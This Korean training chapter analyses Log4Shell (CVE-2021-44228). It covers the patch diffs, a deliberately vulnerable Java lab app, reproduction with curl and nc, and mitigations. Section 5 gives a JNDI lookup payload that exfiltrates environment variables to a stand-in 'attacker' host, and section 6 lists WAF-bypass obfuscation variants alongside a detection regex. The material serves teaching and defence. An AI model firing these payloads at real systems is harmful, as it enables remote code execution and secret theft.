

# CVE-2021-44228 Log4Shell: JNDI 조회를 통한 RCE

| 레벨 | 상태 | 최종 개정 | CWE | 유형 | CVSS |
|---|---|---|---|---|---|
| 🟡 | 🔄 개정중 | 2026-10-22 | [CWE-917](https://cwe.mitre.org/data/definitions/917.html) | [역직렬화](../part3-web/07-deserialization.md) · [SSRF](../part3-web/03-ssrf.md) | 10.0 |

> **한눈에 보기**
> 로그 한 줄에 `${jndi:ldap://...}`를 넣으면 원격 코드가 실행됐다. 로깅 라이브러리의 "편의 기능"이 네트워크 요청과 클래스 로딩까지 이어졌기 때문이다.
> 역직렬화, SSRF, 공급망 세 가지가 한 CVE에 들어 있고, 패치는 세 번에 걸쳐서야 끝났다.
> 이 사례에서 배울 것은 하나다. **기능이 곧 공격 표면이다.**

## 0. 환경

- **영향 버전**: Log4j 2.0-beta9 ~ 2.14.1 (보안 릴리스 2.3.1, 2.12.2, 2.12.3 제외). CVE 레코드는 불완전 패치인 2.15.0까지를 영향 범위에 넣는다 📎 [Apache 보안 페이지](https://logging.apache.org/security.html) · [CVE-2021-44228 레코드](https://www.cve.org/CVERecord?id=CVE-2021-44228)
- **패치 버전**: 2.15.0(불완전) → 2.16.0 → 2.17.0 (Java 8+). Java 7은 2.12.3, Java 6은 2.3.1
- **CVSS**: 10.0 (AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H)
- **발견자**: Alibaba Cloud Security Team의 Chen Zhaojun 📎 [Apache 보안 페이지](https://logging.apache.org/security.html)
- **재현 환경 (A, 직접 만들기)**: 아래 4절의 20줄짜리 Java 앱 + Dockerfile. JDK 8u181(원격 클래스 로딩이 기본 허용되던 마지막 계열 중 하나)을 쓴다.
- **재현 환경 (B, 공개 환경)**: [Vulhub `log4j/CVE-2021-44228`](https://github.com/vulhub/vulhub/tree/master/log4j/CVE-2021-44228). Log4j 2.14.1을 포함한 Apache Solr 8.11.0이 8983 포트에 뜬다.
- **필요한 도구**: Docker, `nc`, (전체 체인 재현 시) [marshalsec](https://github.com/mbechler/marshalsec)의 `LDAPRefServer`

## 1. 공개 정보에서 시작하기

2021년 12월 10일 CVE가 공개됐고 같은 날 2.15.0이 나왔다. 권고문을 읽는 순서는 다음과 같다.

1. **Apache 보안 페이지**. "JNDI features used in configuration, log messages, and parameters do not protect against attacker controlled LDAP and other JNDI related endpoints"라는 한 문장이 전부를 말한다. 입력은 **로그 메시지와 파라미터**, 싱크는 **JNDI**, 결과는 **LDAP 서버에서 불러온 코드 실행**이다.
2. **NVD**. CVSS 10.0, 인증 불필요, 네트워크 경유. 스코프 변경(S:C)은 로깅 라이브러리 하나가 그 위의 모든 애플리케이션에 영향을 준다는 뜻이다.
3. **릴리스 노트**. 2.15.0의 LOG4J2-3198("메시지 텍스트 안의 lookup을 기본 비활성화")과 LOG4J2-3201("JNDI가 쓸 수 있는 프로토콜 제한")이 변경 지점을 알려 준다.

여기서 세울 가설: "로그로 기록되는 문자열 안의 `${...}`가 실행 시점에 치환(lookup)되고, 그중 `jndi:` 접두어가 외부 LDAP 서버로 연결한다."

## 2. 패치 diff 읽기

Log4j 2.14.1에서 메시지가 출력되는 지점은 `MessagePatternConverter.format()`이다. 핵심 줄은 이것이다.

```java
// ❌ 취약 (log4j-core 2.14.1, MessagePatternConverter.format)
toAppendTo.append(config != null && result.contains("${")
        ? config.getStrSubstitutor().replace(event, result) : result);
```

로그 메시지(`result`)에 `${`가 있으면 **설정 파일에 쓰는 치환기**(`StrSubstitutor`)를 메시지에도 적용한다. 설정 파일은 개발자가 쓰고, 메시지는 사용자 입력에서 온다. 신뢰 경계가 여기서 무너진다.

`${jndi:...}` 접두어는 `JndiLookup` 플러그인으로 간다.

```java
// log4j-core 2.14.1, JndiLookup
@Plugin(name = "jndi", category = StrLookup.CATEGORY)
public class JndiLookup extends AbstractLookup {
    public String lookup(final LogEvent event, final String key) {
        ...
        try (final JndiManager jndiManager = JndiManager.getDefaultManager()) {
            return Objects.toString(jndiManager.lookup(jndiName), null);
```

```java
// log4j-core 2.14.1, JndiManager
public <T> T lookup(final String name) throws NamingException {
    return (T) this.context.lookup(name);   // javax.naming.InitialContext 그대로
}
```

검사가 하나도 없다. 프로토콜도, 호스트도, 돌아오는 객체의 종류도 보지 않는다.

### 세 번의 패치

| 버전 | 날짜 | 고친 것 | 남은 것 |
|---|---|---|---|
| **2.15.0** | 2021-12-10 | 메시지 lookup 기본 비활성화(LOG4J2-3198, `%m{lookups}`로만 재활성화). JNDI 프로토콜을 `java`, `ldap`, `ldaps`로 제한하고 LDAP 호스트를 로컬 IP로 제한, `Referenceable` 객체 거부, 역직렬화 클래스를 기본형으로 제한(LOG4J2-3201) | 패턴 레이아웃에 `$${ctx:...}`처럼 Thread Context Map 값을 쓰는 **비기본 설정**에서는 lookup이 여전히 평가됨 → **CVE-2021-45046** (처음 3.7로 매겼다가 특정 환경에서 로컬 호스트 제한 우회·RCE가 확인되어 9.0으로 상향) |
| **2.16.0** | 2021-12-13 | 메시지 lookup 코드 자체를 제거(LOG4J2-3211). JNDI 전체를 기본 비활성화, `log4j2.enableJndi=true`일 때만 동작(LOG4J2-3208) | 자기 참조 lookup(`${ctx:a}`가 `${ctx:a}`를 포함)의 무한 재귀 → `StackOverflowError` DoS → **CVE-2021-45105** (5.9) |
| **2.17.0** | 2021-12-18 | 로그 이벤트 처리 중 재귀 치환 금지(LOG4J2-3230). JNDI를 `java` 프로토콜만 허용, LDAP/LDAPS 제거(LOG4J2-3242). JndiLookup·JMS·ContextSelector를 각각 별도 속성으로 켜도록 분리 | 설정 파일을 공격자가 쓸 수 있을 때 JDBC Appender의 JNDI 데이터소스로 RCE → **CVE-2021-44832** (2.17.1에서 수정) |

📎 버전별 영향 범위와 점수: [Apache 보안 페이지](https://logging.apache.org/security.html). 📎 날짜: [GitHub 릴리스 태그](https://github.com/apache/logging-log4j2/releases) 기준(2.15.0 태그는 UTC로 12-11, 2.16.0은 12-13, 2.17.0은 12-18).

2.17.0의 `JndiManager.lookup()`은 이렇게 바뀌었다.

```java
// ✅ 안전 (log4j-core 2.17.0)
if (uri.getScheme() == null || uri.getScheme().equals(JAVA_SCHEME)) {
    return (T) this.context.lookup(name);
}
LOGGER.warn("Unsupported JNDI URI - {}", name);
return null;
```

diff가 말해 주는 것: 첫 패치는 "위험한 목적지를 거르자"였고, 세 번째 패치는 "기능을 없애자"였다. 허용 목록을 좁히는 것보다 **기능을 끄는 것**이 더 안전했다. 거르는 방식은 두 번 더 뚫렸다.

## 3. 취약 지점까지 도달하기



<figure>
<figcaption>그림 1. 로그 한 줄이 LDAP 조회와 HTTP 클래스 다운로드로 이어지는 경로. 앱은 한 번도 "실행하라"고 쓰지 않았다.</figcaption>
</figure>

경로를 함수 이름으로 적으면 다음과 같다.

1. `Logger.error("client: {}", userAgent)` — 사용자 입력이 메시지 파라미터로 들어간다.
2. `PatternLayout` → `MessagePatternConverter.format()` — 포맷된 메시지에 `${`가 있으면 치환기를 호출한다.
3. `StrSubstitutor.replace()` → `Interpolator.lookup()` — 접두어 `jndi`로 플러그인을 고른다.
4. `JndiLookup.lookup()` → `JndiManager.lookup()` → `InitialContext.lookup("ldap://evil:1389/a")`.
5. JDK의 LDAP 프로바이더가 응답의 `javaCodebase`, `javaFactory` 속성을 보고 원격 클래스를 로드한다.

### 5단계는 JDK 버전에 달려 있다

5단계가 되려면 JDK가 원격 코드베이스를 신뢰해야 한다. 시스템 속성 `com.sun.jndi.ldap.object.trustURLCodebase`가 그 스위치다.

| JDK | LDAP 원격 클래스 로딩 기본값 |
|---|---|
| 8u191 / 7u201 / 6u211 / 11.0.1 **이전** | 허용 (`trustURLCodebase` 기본 true) |
| 8u191 / 7u201 / 6u211 / 11.0.1 **이후** (2018년 10월~) | 차단 (기본 false). RMI는 그보다 앞서 8u121에서 차단 |

📎 [oss-security 스레드, 2021-12-10](https://www.openwall.com/lists/oss-security/2021/12/10/3). 현재 OpenJDK 8u 소스에서는 `VersionHelper12`가 이 속성을 `"false"` 기본값으로 읽는다.

최신 JDK라고 안전한 것은 아니었다. 원격 코드베이스가 막혀도 (a) LDAP 응답의 `javaSerializedData`로 **역직렬화 가젯**을 보내거나 (b) 앱 클래스패스에 이미 있는 팩토리 클래스(예: Tomcat의 `BeanFactory`와 EL 평가)를 지목하는 우회가 공개돼 있었다. 2.15.0이 `Referenceable`을 거부하고 역직렬화 클래스를 기본형으로 제한한 이유다. JDK 쪽도 이후 `com.sun.jndi.ldap.object.trustSerialData` 기본값을 false로 바꿨다(JDK 20부터. `VersionHelper.java`의 기본값이 jdk-19에서는 `"true"`, jdk-20에서는 `"false"`다). 또한 JDK와 무관하게 `${jndi:dns://...}`나 `${env:AWS_SECRET_ACCESS_KEY}`를 LDAP 경로에 섞어 **환경변수를 외부로 유출**하는 것은 어느 JDK에서도 됐다.

## 4. 재현

### 4.1 최소 Java 앱 (환경 A)

20줄짜리 앱이다. User-Agent를 그대로 로그에 쓴다. 설정 파일이 없으면 Log4j 기본 설정은 ERROR 이상만 콘솔로 내므로 `error()`를 쓴다.

```java
// App.java  ❌ 취약: 사용자 입력을 그대로 로그 메시지에
import java.net.InetSocketAddress;
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;
import com.sun.net.httpserver.HttpServer;

public class App {
    private static final Logger log = LogManager.getLogger(App.class);
    public static void main(String[] args) throws Exception {
        HttpServer server = HttpServer.create(new InetSocketAddress(8080), 0);
        server.createContext("/", ex -> {
            String ua = ex.getRequestHeaders().getFirst("User-Agent");
            log.error("unsupported client: {}", ua);
            byte[] body = "ok\n".getBytes();
            ex.sendResponseHeaders(200, body.length);
            ex.getResponseBody().write(body);
            ex.close();
        });
        server.start();
    }
}
```

```dockerfile
# Dockerfile — 8u191 이전 JDK + Log4j 2.14.1
FROM openjdk:8u181-jdk
WORKDIR /app
ADD https://repo1.maven.org/maven2/org/apache/logging/log4j/log4j-api/2.14.1/log4j-api-2.14.1.jar .
ADD https://repo1.maven.org/maven2/org/apache/logging/log4j/log4j-core/2.14.1/log4j-core-2.14.1.jar .
COPY App.java .
RUN javac -cp "log4j-api-2.14.1.jar:log4j-core-2.14.1.jar" App.java
CMD ["java", "-cp", ".:log4j-api-2.14.1.jar:log4j-core-2.14.1.jar", "App"]
```

```bash
docker build -t log4shell-lab .
docker run --rm --network host log4shell-lab      # 8080 포트
```

### 4.2 1단계: 외부 연결이 나가는지 본다

LDAP 서버 없이도 취약 여부는 확인된다. 아무 포트나 열어 두고 그리로 연결이 오는지 본다.

```bash
# 터미널 1
nc -lv 127.0.0.1 1389
# 터미널 2
curl -s -A '${jndi:ldap://127.0.0.1:1389/a}' http://127.0.0.1:8080/
```

터미널 1에 연결이 찍히고 LDAP 바인드 요청의 바이너리가 들어온다. 앱 콘솔에는 로그 한 줄과 함께 `javax.naming.CommunicationException` 류의 스택 트레이스가 남는다. **이것만으로 "취약하다"는 확정된다.** 로그 메시지가 네트워크 연결을 일으켰기 때문이다.

### 4.3 2단계: 전체 체인 (선택)

코드 실행까지 보려면 LDAP 참조 서버가 필요하다. 공개 도구 [marshalsec](https://github.com/mbechler/marshalsec)의 `marshalsec.jndi.LDAPRefServer`가 `javaCodebase`를 가리키는 참조를 돌려주고, 그 코드베이스는 `python3 -m http.server` 한 줄로 띄운다. 페이로드 클래스는 `static {}` 블록에서 `/tmp/pwned` 파일 하나를 만드는 정도면 충분하다. 환경 B(Vulhub Solr)에서는 `GET /solr/admin/cores?action=${jndi:ldap://...}`가 같은 역할을 한다.

## 5. 영향 증명

| 단계 | 확인 | 의미 |
|---|---|---|
| 1 | 로그 입력으로 외부 TCP 연결이 발생 | 취약점 존재. SSRF급 |
| 2 | `${jndi:ldap://${env:HOSTNAME}.attacker/}`로 환경변수가 외부로 나감 | 정보 유출. JDK 버전 무관 |
| 3 | 원격 클래스 또는 역직렬화 가젯으로 파일 생성 | RCE. 앱 권한으로 임의 코드 |

실제 사건에서 Critical을 만든 것은 3단계가 아니라 **도달 범위**였다. 로그에 들어가는 입력은 User-Agent, 검색어, 사용자 이름, 채팅 메시지 등 사실상 모든 것이고, Log4j 2는 Java 생태계 전반에 전이 의존성(transitive dependency)으로 들어가 있었다. 직접 쓰지 않는 조직도 영향을 받았다. 이 점이 [공급망 장](../part5-extended/04-supply-chain.md)으로 이어진다.

## 6. 탐지와 방어

### 코드 리뷰에서 봤어야 할 것

- 로깅 라이브러리가 **메시지 내용을 해석**하는지. 설정 치환기가 런타임 데이터에도 적용되는 구조는 그 자체로 신뢰 경계 위반이다.
- `InitialContext.lookup()`에 외부 문자열이 닿는 모든 경로. JNDI는 2016년 BlackHat 발표(Muñoz·Mirosh) 이후 알려진 싱크였다.

### 패치 외 완화책

| 조치 | 적용 범위 | 한계 |
|---|---|---|
| `log4j2.formatMsgNoLookups=true` 또는 환경변수 `LOG4J_FORMAT_MSG_NO_LOOKUPS=true` | 2.10 ~ 2.14.1 | 2.10 미만에서는 무시됨. CVE-2021-45046의 비기본 설정 경로는 못 막음 |
| `zip -q -d log4j-core-*.jar org/apache/logging/log4j/core/lookup/JndiLookup.class` | 2.0-beta9 이상 | 2.16.0에서는 다른 코드가 이 클래스에 의존하므로 제외 📎 [Apache 보안 페이지](https://logging.apache.org/security.html) |
| 아웃바운드(egress) 차단 | 모든 버전 | LDAP·HTTP가 나가지 못하면 체인이 끊긴다. 그러나 DNS는 대부분 열려 있어 유출 변형은 남는다 |
| JDK 8u191+ | 원격 코드베이스 | 역직렬화·로컬 팩토리 우회는 못 막음 |

### 탐지 시그니처와 우회 변형

초기 WAF 룰은 `${jndi:` 문자열을 막았다. 그러나 lookup 자체가 중첩되므로 같은 문자열을 수십 가지로 쓸 수 있다.

```text
${jndi:ldap://evil/a}                       # 원형
${${lower:j}ndi:ldap://evil/a}              # lower lookup
${${::-j}${::-n}${::-d}${::-i}:ldap://evil/a}   # 기본값 문법 ":-"
${${env:NONE:-j}ndi:${lower:l}${lower:d}a${lower:p}://evil/a}
${jndi:${upper:l}dap://evil/a}
```

탐지 룰은 문자열이 아니라 **구조**를 봐야 한다. `${`로 시작하고 중첩 `${`를 포함하며 `jndi`의 글자가 순서대로 나오는 패턴(예: `\$\{.*j.*n.*d.*i.*:`)이 1차 필터이고, 그 뒤에 lookup을 실제로 전개해 보는 디코더가 필요하다. 네트워크 쪽에서는 Java 프로세스에서 나가는 LDAP(389/636 외 비표준 포트 포함)·RMI(1099) 연결이 더 확실한 신호다. 로그 쪽에서는 `javax.naming` 스택 트레이스가 갑자기 늘어나는 것을 본다.

## 7. 배운 것

1. **기능이 곧 공격 표면이다.** 메시지 lookup은 설계된 기능이었고 문서에도 있었다. "버그"가 아니라 "기능"이었기 때문에 8년 가까이 아무도 취약점이라 부르지 않았다. 기능 목록을 공격 표면 목록으로 다시 읽는 습관이 [공격 표면 장](../part1-foundations/03-attack-surface.md)의 핵심이다.
2. **첫 패치는 믿지 않는다.** 2.15.0은 나흘 만에 뚫렸고 2.16.0도 닷새 만에 DoS가 나왔다. 센터의 패치 검증은 "패치가 나왔다"가 아니라 "패치 후 같은 입력이 실패한다"를 확인하는 것이다. [8부 3장](../part8-reporting/03-patch-verification.md)
3. **의존성의 의존성까지가 내 코드다.** 영향받은 조직 대부분은 Log4j를 직접 쓴 적이 없었다. SBOM 없이 "우리는 안 쓴다"고 답할 수 없다. [공급망 장](../part5-extended/04-supply-chain.md)

## 참고

- 벤더 권고: [Apache Log4j Security Vulnerabilities](https://logging.apache.org/security.html)
- NVD: [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228) · [CVE-2021-45046](https://nvd.nist.gov/vuln/detail/CVE-2021-45046) · [CVE-2021-45105](https://nvd.nist.gov/vuln/detail/CVE-2021-45105) · [CVE-2021-44832](https://nvd.nist.gov/vuln/detail/CVE-2021-44832)
- 패치: [2.15.0 릴리스 노트](https://github.com/apache/logging-log4j2/blob/rel/2.15.0/RELEASE-NOTES.md) · [2.16.0](https://github.com/apache/logging-log4j2/blob/rel/2.16.0/RELEASE-NOTES.md) · [2.17.0](https://github.com/apache/logging-log4j2/blob/rel/2.17.0/RELEASE-NOTES.md)
- 취약 코드: [MessagePatternConverter 2.14.1](https://github.com/apache/logging-log4j2/blob/rel/2.14.1/log4j-core/src/main/java/org/apache/logging/log4j/core/pattern/MessagePatternConverter.java) · [JndiManager 2.14.1](https://github.com/apache/logging-log4j2/blob/rel/2.14.1/log4j-core/src/main/java/org/apache/logging/log4j/core/net/JndiManager.java)
- JNDI 인젝션 배경: Alvaro Muñoz, Oleksandr Mirosh, "A Journey from JNDI/LDAP Manipulation to Remote Code Execution Dream Land", BlackHat USA 2016 · Moritz Bechler, [marshalsec 논문](https://github.com/mbechler/marshalsec) (2017)
- JDK 기본값 변화: [oss-security 2021-12-10](https://www.openwall.com/lists/oss-security/2021/12/10/3)
- 재현 환경: [Vulhub log4j/CVE-2021-44228](https://github.com/vulhub/vulhub/tree/master/log4j/CVE-2021-44228)

## 변경 이력

| 날짜 | 변경 | 기여자 |
|---|---|---|
| 2026-10-21 | 초안(뼈대) 작성 | @anthonynoh5202 |
| 2026-10-22 | 전체 작성: 패치 3회 비교, JDK 버전별 동작, 최소 재현 앱, 탐지 우회 | @anthonynoh5202 |
| 2026-10-22 | 기술 검증: CVE 레코드(영향 범위 2.15.0 포함)·CVSS·크레딧, 2.14.1/2.17.0 소스 인용, 릴리스 노트 이슈 번호·태그 날짜 대조. App.java를 log4j-core 2.14.1로 컴파일·실행해 4.2의 LDAP 아웃바운드 연결 확인. trustSerialData 변경은 JDK 20 소스로 확인하고 미확인 이슈 번호·게시자 이름 삭제 | 검증팀 |
